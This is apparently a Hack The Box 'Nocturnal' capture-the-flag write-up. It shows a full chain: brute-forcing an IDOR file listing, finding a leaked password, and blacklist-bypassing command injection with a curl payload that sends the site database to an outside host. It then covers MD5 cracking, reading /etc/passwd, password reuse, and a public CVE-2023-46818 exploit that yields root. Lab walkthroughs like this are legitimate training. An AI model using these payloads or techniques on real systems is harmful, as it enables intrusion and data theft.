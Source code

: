 ## ENUM :

Open ports

```
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.12 (Ubuntu Linux; protocol 2.0)
80/tcp open  http    nginx 1.18.0 (Ubuntu)
```

dirb result:

```
-----------------
DIRB v2.22    
By The Dark Raver
-----------------

START_TIME: Thu Jul 10 13:54:38 2025
URL_BASE: http://nocturnal.htb/
WORDLIST_FILES: /usr/share/dirb/wordlists/common.txt

-----------------

GENERATED WORDS: 4612                                                          

---- Scanning URL: http://nocturnal.htb/ ----                                                                                                                                                                                                      + http://nocturnal.htb/admin.php (CODE:302|SIZE:0)                                                                                                                                                                                         
==> DIRECTORY: http://nocturnal.htb/backups/                                                                                                                                                                                               
+ http://nocturnal.htb/index.php (CODE:200|SIZE:1524)                                                                                                             
---- Entering directory: http://nocturnal.htb/backups/ ----

-----------------
END_TIME: Thu Jul 10 14:02:40 2025
DOWNLOADED: 9224 - FOUND: 2
```

No subdomain detected

I move on to using the service by analyzing it with Burp

I find the page: `http://nocturnal.htb/dashboard.php` which allows file upload, this is likely the vulnerability.

I try, but I can only download the file back, however I analyze the provided link:

`/view.php?username=zeroz&file=payload.php.pdf`

I will run several tests, what happens if I put in a non-existent file?

It returns an extension error. Now, is it possible to list all files by their extensions?

`/view.php?username=zeroz&file=*.pdf`

Yes! And that’s good news! Because with some luck, I can list the files of all the other users by using BurpSuite Intruder.

---

## Initial access / Own user

I will make 2 lists: one for extensions and a random wordlist from the internet with names.

When uploading a PHP file, I get this message:
`Invalid file type. pdf, doc, docx, xls, xlsx, odt are allowed.`

So I have my first list, and I also have the second on my Kali:
`/usr/share/wordlists/seclists/Usernames/xato-net-10-million-usernames.txt`

I’ll then run a “Cluster Bomb Attack” with Intruder.

I find 2 users:
`admin` and `amanda`

Worth digging! I run a lighter scan on those 2 users.

I find the file: `privacy.odt` on Amanda’s account

```
Dear Amanda,

Nocturnal has set the following temporary password for you: arHkG7HAI68X8s1J. This password has been set for all our services, so it is essential that you change it on your first login to ensure the security of your account and our infrastructure.

The file has been created and provided by Nocturnal's IT team. If you have any questions or need additional assistance during the password change process, please do not hesitate to contact us.

Remember that maintaining the security of your credentials is paramount to protecting your information and that of the company. We appreciate your prompt attention to this matter.

  

Yours sincerely,

Nocturnal's IT team
```

So I found this password: `arHkG7HAI68X8s1J`

I can connect as Amanda and access the admin panel.

I inspect the files and one part catches my eye:

```php
$command = "zip -x './backups/*' -r -P " . $password . " " . $backupFile . " .  > " . $logFile . " 2>&1 &";
```

The password is directly inserted into the shell command!
There is a filtering function:

```php
function cleanEntry($entry) {
    $blacklist_chars = [';', '&', '|', '$', ' ', '`', '{', '}', '&&'];
```

But I doubt it’s unbreakable!

```
[';', '&', '|', '$', ' ', '`', '{', '}', '&&']
```

Despite the blacklist, nothing protects against **new lines (`%0a`)** or **tabs (`%09`)** when URL-encoded:

* `%0a` injects a line break (`\n`)
* `%09` injects a tab (`\t`), used as space in shell

The goal is to break out of the zip command to execute code directly.

And I have all the pieces! However, I couldn’t get a reverse shell, so instead I’ll execute small commands for exfiltration.

I find: `../nocturnal_database/nocturnal_database.db`

I manage to download it via my extraction script + curl:

```
password=%0abash%09-c%09"curl%09-F%09data=@../nocturnal_database/nocturnal_database.db%09http://ip:port"%0a&backup=
```

I analyze it on my machine (important to note that I also saw this in `register.php`: `$password = md5($_POST['password']);` → passwords are MD5 hashes).

![alt text](note/ctf/asset/HTB_Noctural.png)

I copy them all and use Crackstation:

| user    | password             |
| ------- | -------------------- |
| admin   | not found            |
| amanda  | not found            |
| tobias  | slowmotionapocalypse |
| kavi    | kavi                 |
| e0Al5   | not found            |
| hola    | hola                 |
| zeroz   | test                 |
| elix    | elix                 |
| test    | test                 |
| toto    | Qwerty12345!         |
| transit | 1234                 |

I assume one of these accounts must be valid, but I’m mainly looking for which one gives me SSH access, so I exfiltrate `/etc/passwd`:

```
cat passwd | grep /bin/bash
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Perfect! I have credentials:
`tobias : slowmotionapocalypse`

---

## Own root

#### linpeas :

Cron checked:
`-rw-r--r--   1 root root 2473 Oct 18  2024 sendmail`

Open ports:

```
127.0.0.1:8080 (web service)
127.0.0.1:3306 (MySQL)
127.0.0.1:33060
127.0.0.1:587
127.0.0.1:25
```

Users with shell:

```
root:x:0:0:root:/root:/bin/bash
tobias:x:1000:1000:tobias:/home/tobias:/bin/bash
```

Likely related service:

```
/var/www/ispconfig
/usr/local/ispconfig
```

Mail applications:

```
sendmail
sendmail-msp
sendmail-mta
```

#### Exploit

I check the service by doing a port forward:
`ssh -L 8080:127.0.0.1:8080 tobias@10.10.11.64`

I land on an ISPConfig interface, version `3.2.10p1`, which is vulnerable to **CVE-2023-46818**.

Tobias + his password doesn’t work, I try `admin` with Tobias’ password and it works.

I can exploit the CVE! → [https://github.com/ajdumanhug/CVE-2023-46818](https://github.com/ajdumanhug/CVE-2023-46818)

`python exploit.py http://localhost:8080 admin slowmotionapocalypse`

And I get root!

```
[+] Logging in with username 'admin' and password 'slowmotionapocalypse'
[+] Login successful!
...
ispconfig-shell# whoami
root

ispconfig-shell# cat /root/root.txt
1553099a6f18b90469778a90e420f82e
```